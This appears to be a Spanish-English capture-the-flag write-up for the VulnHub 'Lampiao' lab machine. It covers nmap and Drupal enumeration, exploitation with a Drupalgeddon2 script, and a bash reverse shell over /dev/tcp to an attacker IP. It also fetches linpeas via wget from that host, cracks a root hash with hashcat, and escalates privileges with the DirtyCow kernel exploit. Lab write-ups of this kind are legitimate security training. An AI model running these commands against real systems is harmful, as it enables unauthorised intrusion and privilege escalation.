





# Lampiao

| Name        | Lampiao                       |
| ----------- | ----------------------------- |
| Dificultad: | Easy                          |
| SO:         | Linux                         |
| Tipo:       | VulnHub - OffSec Play Grounds |

## Host
```shell
192.168.181.48
```

## Enumeration
### Nmap
```shell
nmap 192.168.181.48 -sV -sC -p- --min-rate=1000

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?

1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Lampi\xC3\xA3o
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)


sudo nmap 192.168.181.48 -p- --min-rate=1000 -sU
```

### Web Enumeration - Port 1898 - Drupal CMS
```shell
http://192.168.181.48:1898/robots.txt

# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```
#### Drupal Version
```shell
http://192.168.181.48:1898/CHANGELOG.txt

Drupal 7.54, 2017-02-01
```


## Foothold
### CVE-2018-7600 - Drupalggedon2
- https://github.com/pimps/CVE-2018-7600
```shell
python3 drupalgeddon2.py http://192.168.181.48:1898/
python3 drupalgeddon2.py http://192.168.181.48:1898/ -c whoami
```

#### Reverse Shell
```shell
python3 drupalgeddon2.py http://192.168.157.48:1898/ -c "bash -c 'bash -i >& /dev/tcp/192.168.45.184/4444 0>&1'"
```
#### Listener
```shell
nc -lnvp 4444
```



## Privilege Escalation
### Basic Enumeration
```shell
cat /etc/passwd
```

```shell
root:$6$blDsHpU9$1.jyQg4uduSokEQ9Jgvo.5WkyUW52zP1XPT/PaA54y4y1ozS0WwrYcYUjfLZkBxx85gU2ROt5OpnoR5bDnbJX1:0:0:root:/root:/bin/bash
```

```shell
sudo hashcat -m 1800 root_hash /usr/share/wordlists/rockyou.txt --force
```
- While the password is been cracked we can try another approach

```shell
find / -perm -u=s -type f 2>/dev/null

find / -writable -type f 2>/dev/null | grep -v "/proc/" | grep -v "/sys/"

find / -writable -type d 2>/dev/null
/var/lib/php5
```

```shell
ls -lah /etc/cron*


/etc/cron.d:
-rw-r--r--  1 root root  510 Jul 28  2016 php5
```
### Automatic Enumeration - Linpeas.sh
```shell
cd /tmp

wget http://192.168.45.184:8000/linpeas.sh

chmod +x linpeas.sh

linpeas.sh
```

```shell
Linux version 4.4.0-31-generic ...
```


### Kernel Vulnerabilities
- From the [#Automatic Enumeration - Linpeas.sh](#Automatic%20Enumeration%20-%20Linpeas.sh) looks like this is an old kernel and may be outdated, then we can try some of the "highly probable" exploits from the exploit suggester module in Linpeas:

- Let's try DirtyCow
#### DirtyCow - CVE-2016-5195 - Kernel Exploit
- https://www.exploit-db.com/exploits/40847
```shell
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil

./dcow -s
```



# Flags
```shell
/home/tiago/local.txt
/root/proof.txt
```

